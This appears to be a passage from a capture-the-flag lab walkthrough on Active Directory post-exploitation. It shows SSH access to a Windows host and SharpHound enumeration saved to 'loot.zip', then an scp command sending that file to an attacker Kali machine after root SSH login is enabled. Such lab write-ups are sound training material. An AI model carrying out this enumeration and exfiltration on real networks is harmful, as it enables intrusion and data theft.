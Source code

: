 ```text
root@kali:~# ssh Administrator@10.10.167.211
Administrator@10.10.167.211's password:
Microsoft Windows [Version 10.0.17763.737]
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
```

Now we can run SharpHound to collect the AD information:

```text
PS C:\Users\Administrator> Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
----------------------------------------------
Initializing SharpHound at 1:52 PM on 6/9/2020
----------------------------------------------
Resolved Collection Methods: Group, Sessions, LoggedOn, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container

[+] Creating Schema map for domain CONTROLLER.LOCAL using path CN=Schema,CN=Configuration,DC=CONTROLLER,DC=LOCAL
PS C:\Users\Administrator> [+] Cache File not Found: 0 Objects in cache

[+] Pre-populating Domain Controller SIDS
Status: 0 objects finished (+0) -- Using 78 MB RAM
Status: 66 objects finished (+66 66)/s -- Using 85 MB RAM
Enumeration finished in 00:00:01.5262541
Compressing data to C:\Users\Administrator\20200609135203_loot.zip
You can upload this file directly to the UI
SharpHound Enumeration Completed at 1:52 PM on 6/9/2020! Happy Graphing!
```

We can use scp to copy loot from target back to Kali. First set SSH to allow root to access it, by editing /etc/ssh/sshd_config. Change the PermitRootLogin to remove # and put yes at the end:

```text
# Authentication:
#LoginGraceTime 2m

PermitRootLogin yes

#StrictModes yes
#MaxAuthTries 6
#MaxSessions 10
```

Now start ssh temporarily:

```text
root@kali:~/thm/postexploit# systemctl start ssh.socket
```

Back on the machine we can now copy the file across:

```text
PS C:\Users\Administrator> scp .\20200609093439_loot.zip root@10.9.17.195:/root/loot.zip
The authenticity of host '10.9.17.195 (10.9.17.195)' can't be established.
ECDSA key fingerprint is SHA256:j2rFIhm/IhhKmKwx5YTtx70Ox8mpS+Qd8dskUOiXPD4.
Are you sure you want to continue connecting (yes/no)?
Warning: Permanently added '10.9.17.195' (ECDSA) to the list of known hosts.
root@10.9.17.195's password:
20200609093439_loot.zip                                                                                                                                                                                  100% 9537   298.1KB/s   00:00
```
